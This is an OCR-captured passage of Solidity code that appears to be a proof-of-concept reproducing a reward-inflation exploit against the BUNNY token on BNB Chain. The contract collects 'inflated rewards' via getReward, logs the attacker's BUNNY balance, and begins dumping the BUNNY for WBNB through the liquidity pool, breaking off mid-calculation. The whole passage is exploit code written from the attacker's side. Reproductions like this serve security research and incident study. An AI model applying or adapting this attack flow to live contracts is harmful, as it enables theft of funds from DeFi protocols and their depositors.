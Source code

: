 │             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Collect inflated rewards                                                                                                                                                                                                                    │
│         flip.getReward();                                                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                   │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Dump BUNNY                                                                                                                                                                                                                                  │
│         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                          │
│         {                                                                                                                                                                                                                                             │
│             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                        │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                         │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                          │
│             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                  │
│                 bunnyBalance,                                                                                                                                                                                                                         │
│                 reserve1,                                                                                                                                                                                                                             │